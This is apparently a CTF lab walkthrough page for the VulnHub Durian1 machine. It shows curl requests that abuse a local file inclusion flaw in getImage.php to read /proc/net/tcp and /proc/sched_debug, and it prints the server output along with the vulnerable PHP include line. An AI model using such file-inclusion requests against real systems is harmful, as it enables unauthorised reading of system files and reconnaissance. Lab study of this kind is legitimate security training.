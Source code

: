 # ENUMERACION LINUX PROC

```ruby
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/Durian1/nmap]
└─$ curl -s X GET http://192.168.200.143/cgi-data/getImage.php?file=/proc/net/tcp
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
  /*
</?php include $_GET['file']; */
</body>
</html>


  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                 
   0: 00000000:1BA8 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17784 1 00000000423e3277 100 0 0 10 128               
   1: 0100007F:0CEA 00000000:0000 0A 00000000:00000000 00:00000000 00000000   106        0 17962 1 000000009754e893 100 0 0 10 0                 
   2: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17586 1 00000000bbc30e72 100 0 0 10 0                 
   3: 00000000:1F98 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 17786 1 00000000bfca24be 100 0 0 10 128               
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────                                                                   
```


[Conver ibase obase](https://linuxhint.com/convert_hexadecimal_decimal_bash/)


┌──(s3cur1ty3c㉿kali)-[~/CTF/vulnhub/Durian1/nmap]
└─$ curl -s -X GET http://192.168.200.143/cgi-data/getImage.php?file=/proc/sched_debug

<!DOCTYPE html>

<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
  /*
</?php include $_GET['file']; */
</body>
</html>

Sched Debug Version: v0.11, 4.19.0-10-amd64 #1
ktime                                   : 417145.373424
sched_clk                               : 417166.588248
cpu_clk                                 : 417161.705715
jiffies                                 : 4294996347
sched_clock_stable()                    : 1

sysctl_sched
.sysctl_sched_latency                    : 6.000000
.sysctl_sched_min_granularity            : 0.750000
.sysctl_sched_wakeup_granularity         : 1.000000
.sysctl_sched_child_runs_first           : 0
.sysctl_sched_features                   : 4118331
.sysctl_sched_tunable_scaling            : 1 (logaritmic)

